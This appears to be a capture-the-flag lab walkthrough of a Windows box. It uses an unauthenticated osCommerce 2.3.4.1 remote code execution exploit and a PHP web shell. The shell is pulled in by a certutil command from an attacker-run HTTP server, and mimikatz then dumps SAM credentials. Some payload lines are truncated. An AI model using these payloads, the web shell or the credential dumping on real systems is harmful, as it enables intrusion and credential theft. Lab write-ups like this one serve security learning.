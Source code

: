 #Windows #RemoteCodeExecution #Shell

**NMAP Scan**

```sh
  nmap -sV -sC -p- 10.10.83.191
  ```

- To see the versions of the services running (**-sV**)
- To perform a script scan using the default set of scripts (**-sC**)
- To scan all ports from 1 through 65535 (**-p-**)


 Open Ports

* 80/tcp
* 135/tcp
* 139/tcp
* 443/tcp
* 445/tcp
* 3306/tcp
* 8080/tcp
* and some high number ports for Microsoft Mindows RPC


Port 8080/tcp takes us to the following website.


![image](https://user-images.githubusercontent.com/99097743/170898695-0f88913c-e395-43be-a7f8-ded690c878f7.png)

OSCommerce is an e-commerce and online store-management software program

(Ref: https://en.wikipedia.org/wiki/OsCommerce)



A quick **searchsploit** search on **osCommerce 2.3.4** shows the following vulnerabilities:

![image](https://user-images.githubusercontent.com/99097743/170889834-7bc4cd09-df46-41b0-ac76-48e7dc3e57ae.png)

**Exploit title: osCommerce 2.3.4.1 - Remote Code Execution (PATH: php/webapps/44374.py)**

* It is an interesting exploit as it does not require credentials.
* An unauthorized attacker can reinstall if installation directory has not been removed.  
* During the reinstallation process, OS commerce does not attempt to do any authentication, it simple executes the code. 

We need to update the followings inputs in 44374.py:

1) base_url: base_url = "http://10.10.83.191:8080/oscommerce-2.3.4/catalog/"
2) target_url: target_url = "http://10.10.83.191:8080/oscommerce-2.3.4/catalog/install/install>
3) Payload: payload += 'exec("certutil.exe -urlcache -f 10.10.83.191:8080/shell.php shell.php>


![image](https://user-images.githubusercontent.com/99097743/170901248-239aad25-20dc-48a4-9e8d-b17b2190bffe.png)

We need to launch the exploit:

```sh
  python ./44374_modified.py
  ```

  ![image](https://user-images.githubusercontent.com/99097743/170891095-908551f8-3745-40a3-b618-8c2f0616985f.png)  
  This message means our code is injected but we need open the URL above in our browser to execute the code:
  
  ![image](https://user-images.githubusercontent.com/99097743/170891198-c029d698-81fc-4f52-bdf8-0db9b12d0dd4.png)

  
  We can follow the steps below to check the output:
  
  1) Change the paylod in the python script to a ping command for the localhost: **payload += 'exec("ping 10.18.123.93");'**
  2) Open a tcpump session and capture the ICMP packages: **sudo tcpdump -i tun0 icmp**


Great, the code is successfully getting executed! Now we need to work on the actual SHELL.PHP payload

Here are the steps -- Please see the picture below for a visual illustration:

1) Generate a simple web shell in localhost: 

```sh
<?php echo shell_exec($_GET["cmd"]); ?>
```

2) Transfer PHP payload through an HTTP server 

```sh
'exec("certutil.exe -urlcache -f http://10.18.123.93:8000/shell.php shell.php");'
```

3) Refresh the browser and trigger the process. 

![Screenshot 2022-05-29 215707](https://user-images.githubusercontent.com/99097743/170910606-a77516e1-d2b4-4451-9e6f-f0e397f16a54.png)

Great, the remote code is injected and can be executed!

![Screenshot 2022-05-29 221850](https://user-images.githubusercontent.com/99097743/170911203-9d49b17a-80d2-49d7-9419-3b7a4942ee6e.png)

Let's try Mimikatz -- "A little tool to play with Windows security"

https://github.com/gentilkiwi/mimikatz

We can start with sending a new payload including **mimikatz.exe**

Next, we can use **LSADUMP::SAM** command to get the SysKey to decrypt SAM entries (from registry or hive). The SAM option connects to the local Security Account Manager (SAM) database and dumps credentials for local accounts.

![image](https://user-images.githubusercontent.com/99097743/170915343-36a67f7d-7337-4b10-8c43-d1f6de1de6ec.png)

Here is the command to capture the root flag:

![image](https://user-images.githubusercontent.com/99097743/170916055-28ad0652-2cff-42b8-8d1f-942060e1a64d.png)



